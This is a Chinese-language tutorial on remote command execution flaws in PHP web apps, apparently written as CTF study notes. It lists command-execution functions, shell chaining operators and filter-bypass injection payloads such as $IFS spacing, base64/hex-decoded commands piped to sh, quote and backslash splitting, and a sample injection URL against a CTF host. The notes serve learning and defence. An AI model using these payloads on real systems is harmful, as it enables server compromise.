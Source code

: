 # RCE漏洞

—————————————————————————————————————————————————————————————————————————————————————————————————————————————

### 一、简介

```
	RCE(remote command/code execute，远程命令执行)漏洞，一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口，比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上。
	一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。如果设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器
```

### 二、作用

```
RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。
```

### 三、原理

```
	以PHP为例，system、exec、shell_exec、passthu、popen、proc_popen等函数可以执行系统命令。当我们可以控制这些函数的参数时，就能运行我们想运行的命令，从而进行攻击。
	一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口。比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上。一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 
	如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器。 
	现在很多的企业都开始实施自动化运维,大量的系统操作会通过"自动化运维平台"进行操作。在这种平台上往往会出现远程系统命令执行的漏洞。 远程代码执行同样的道理,因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行,也就造成了远程代码执行漏洞。 不管是使用了代码执行的函数,还是使用了不安全的反序列化等等。 
	因此，如果需要给前端用户提供操作类的API接口，一定需要对接口输入的内容进行严格的判断，比如实施严格的白名单策略会是一个比较好的方法。
```

### 四、产生条件

```
可控变量、漏洞函数
```

### 五、系统命令执行函数

```
1、system()

2、passthru()

3、exec()

4、shell_exec()

5、popen()

6、proc_open()

7、pcntl_exec()

在网址中的使用（举个例子）：

node5.anna.nssctf.cn:28588/?url=system('l\s');

又或者

node5.anna.nssctf.cn:28588/?url=l\s

php就会执行系统命令
```



### 六、windows系统命令拼接方式

```
1、"|"   cmdA | cmdB      只执行cmdB （这边是把cmdA的一个输出结果作为cmdB的一个输入参数，cmdB处理过后才输出，所以这里只执行cmdB)

	当cmdA与cmdB命令是相关联的话就譬如：在windows的cmd中输入 netstat -ano | findstr 80 就是把netstat -ano输出的所有参数当成findstr的一个输入参数，findstr再执行查找80关键字的处理后再进行输出，所以从某种意义来说，只执行findstr这个命令

要是两个命令毫不相干的话就只会执行cmdB

2、"||"   cmdA || cmdB    cmdA执行成功，就停止；执行失败，继续执行cmdB

3、"&"   cmdA & cmdB      先运行cmdA，然后运行cmdB (windows系统，都会执行两个命令。Linux会分别使用两个界面输出两个命令结果）

【cmdA;cmdB //只适用于Linux系统;两个命令都会执行】

4、"&&"   cmdA && cmdB     先执行cmd1，cmd1执行成功才会执行cmd2
```

### 七、绕过方式

#### 1、空格过滤

```
用这些方式来代替空格

%09（tab键） %20、$IFS$9、<>、${IFS}（空格） 
```

#### 2、关键字过滤

	当cat关键字被过滤的时候
			   
	base64编码绕过：
	echo"cat a.txt" | base64 进行base64位编码，得到编码：Y2F0IGEudHh0Cg==
	echo Y2F0IGEudHh0Cg== | base64 -d  进行base64位解码，得到解码：cat a.txt （-d是解码的意思）
	echo Y2F0IGEudHh0Cg== | base64 -d | sh (这里使用bash是可以的） 将会执行cat a.txt（输出其中的内容）
	           
	hex编码绕过：
	echo "cat a.txt" | xxd
	echo 6361 7420 612e 7478 740a | xxd -r -p 
	echo 6361 7420 612e 7478 740a | xxd -r -p | sh (这里使用bash也是可以的）

#### 3、偶读拼接

	某些关键字无法执行的时候，就先拆开再组合
	
	a=l;b=s;$a$b   执行ls命令
	
	a='ca';b='t ab';c='c.txt';$a$b$c   执行cat abc.txt命令

#### 4、换行绕过

    %0a  换行
    
    有些网站，只会对第一行的参数进行过滤，第二行不会。
    		 
    举例：%0A cat flag.php

#### 5、花括号{}绕过

```
cat abc.txt 

{cat,abc.txt}  其中的空格被过滤的时候，就用' {} ',中间的空格换成' , '就好

{ls,} 只有一个参数的话要在旁边加个,
```

#### 6、内联执行

	本来echo是输出字符串，但现在在里面加上了' ` '变成了执行内部的命令
	
	echo "`cat abc.txt`"      这个' ` '符号是与' ~ '属于同一个按键的符号，在Esc键的下方,注意！这里面符号不是单引号！

#### 7、引号执行

	将关键字拆开但不影响执行
	
	cat abc.txt
	
	c""at abc.txt

#### 8、反斜杠执行

```
将关键字和文件名拆开但不影响执行

c\at  ab\c.txt
```

#### 9、方括号[]绕过

```
将文件名拆开但不影响执行(不经常用)

cat abc.txt

cat ab[c].txt 不要用方括号去绕过关键字例如cat
```

#### 10、关键字替换绕过

```
有一些关键字虽然不同，但功能大体相似，当某些关键字被过滤的时候就可以才用具有相似功能的关键字

就譬如：

cat：查看一个文本文件的内容
tac：以行为单位反序输出文件内容，即第一行最后显示，最后一行先显示，输出内容和cat 命令相反。

虽然功能不一样，但是都可以查看文件
```



#### 总结

```
1.空格绕过：%09，%20，$IFS$9,<>,${IFS},花括号{}

2.文件名参数绕过：base64,hex编码，偶读拼接，引号执行，反斜杠执行，方括号[]

3.关键字过滤：反斜杠执行，引号执行，偶读拼接，base64,hex编码
```

